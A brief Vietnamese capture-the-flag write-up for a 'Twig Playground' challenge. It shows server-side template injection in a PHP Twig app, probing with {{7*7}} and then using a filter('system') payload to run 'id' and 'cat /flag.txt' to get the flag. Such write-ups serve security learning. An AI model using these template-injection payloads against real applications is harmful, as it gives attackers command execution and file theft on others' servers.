 # Twig Playground
Như tên bài thì bài này dùng template twig để liên kết code PHP ở backend với frontend

Từ source code được cung cấp ta thấy code sẽ duyệt qua các item và hiện thị tại frontend 

Mình thừ payload "{{7*7}}" để thử kiểm tra và thành công

![alt text](image.png)

Google thử thì có được payload thực hiện lệnh là *{{['id']|filter('system')}}*

Vì biết file flag.txt nằm trong thư mục gốc lên payload sẽ là *['cat /flag.txt']|filter('system')*
*Flag: CHH{Tw1g_Pl4ygrOund_d4cef9ec78c7cdffa171197d83bbf5c0}*